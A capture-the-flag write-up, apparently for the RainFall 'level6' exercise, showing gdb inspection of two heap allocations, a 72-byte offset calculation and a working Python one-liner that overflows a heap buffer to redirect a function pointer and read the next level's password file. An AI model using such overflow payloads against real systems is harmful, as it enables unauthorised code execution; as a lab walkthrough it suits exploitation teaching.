# level6

## Header

```bash
ssh level6@192.168.64.9 -p 4242
...
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level6/level6
```

<hr>

## Solution
[Disassembling](./source.s) gives us important information. <br>
First, there are two consecutive `malloc` calls: <br>
The first one allocate memory that is used as a buffer. <br>
The second one allocate memory to store the addr of a function `m`. <br>

Also, we found a `n` function that calls `system("/bin/cat /home/user/level7/.pass")`.

So, out goal here is to replace addr of the function from `m` to `n` using `buffer overflow`.
One more thing we need to know is every `malloc`'s block of data has a header of 8 bytes.

Here's the part of the [disassembled code](./source.s):
```c
0x0804848c <+16>:    call   0x8048350 <malloc@plt>
0x08048491 <+21>:    mov    %eax,0x1c(%esp)
0x08048495 <+25>:    movl   $0x4,(%esp)
0x0804849c <+32>:    call   0x8048350 <malloc@plt>
0x080484a1 <+37>:    mov    %eax,0x18(%esp)
0x080484a5 <+41>:    mov    $0x8048468,%edx
```

Let's find out the addresses from the `malloc` calls:

```
(gdb) b *0x080484a5
Breakpoint 1 at 0x80484a5
(gdb) r
(gdb) x $esp + 0x18
0xbffff728:     0x0804a050
(gdb) x $esp + 0x1c
0xbffff72c:     0x0804a008
```

And calculate the offset between two addresses:
```bash
$((0x0804a050 - 0x0804a008))
bash: 72: command not found
```

Exploit! Just passing the array of 72 bytes with the following target address: 
```bash
level6@RainFall:~$ ./level6 $(python -c 'print "X" * 72 + "\x08\x04\x84\x54"[::-1]')
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```

## References
